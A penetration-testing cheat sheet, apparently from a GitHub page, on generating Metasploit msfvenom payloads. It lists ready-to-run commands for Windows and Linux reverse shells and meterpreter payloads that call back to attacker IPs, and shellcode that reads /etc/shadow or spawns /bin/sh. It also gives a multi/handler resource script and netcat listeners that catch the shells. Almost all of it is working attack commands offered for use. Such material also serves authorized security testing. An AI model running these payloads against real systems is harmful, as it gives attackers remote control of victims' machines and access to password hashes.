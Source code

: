     # Windows
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.68 LPORT=443 -f <language>
    msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.107 LPORT=443 --platform windows -a x86 -f c -e generic/none

### Formats for shellcodes

Show payload as C array:

    $ ./msfvenom -p linux/x86/exec CMD='cat /etc/shadow' -f c
    $ ./msfvenom -p linux/x86/exec CMD='cat /etc/shadow' -f python

Show payload as hex string (\xef\fe\d4 ...):

    $ msfvenom -p linux/x86/exec CMD='/bin/sh' -b "\x00" -f c -o ./p; 
    $ cat ./p | tail -5 | tr -d '"' | tr -d "\n"

Show payload in text format:

    $ ./msfvenom -p php/reverse_php --payload-options
    $ ./msfvenom -p php/reverse_php LHOST='192.168.77.142' LPORT=4445
    # generates 'one-liner' payload
    $ ./msfvenom -p php/reverse_php LHOST='192.168.77.142' LPORT=4445 | tr -s ' ' | tr -d '\n'

### Handlers

**handler for non staged payloads**

    nc -nlvp 443

**handlers for staged payloads**

```
cat << "EOF" > ./https-meter-handler.rc
use exploit/multi/handler
#set PAYLOAD linux/x86/meterpreter/reverse_tcp
#set PAYLOAD php/meterpreter/reverse_tcp
#set PAYLOAD windows/meterpreter/reverse_tcp
set PAYLOAD windows/meterpreter/reverse_https 
set LHOST 192.168.30.68
set LPORT 443
set ExitOnSession false
exploit -j -z
EOF
```

### use case: creating simple Linux connect back binary

    msfvenom -l | grep 'linux/x86'
    msfvenom -p linux/x86/shell_reverse_tcp -f elf -o notStaged LHOST='192.168.30.68' LPORT=443

    attacker$ nc -l -p 443
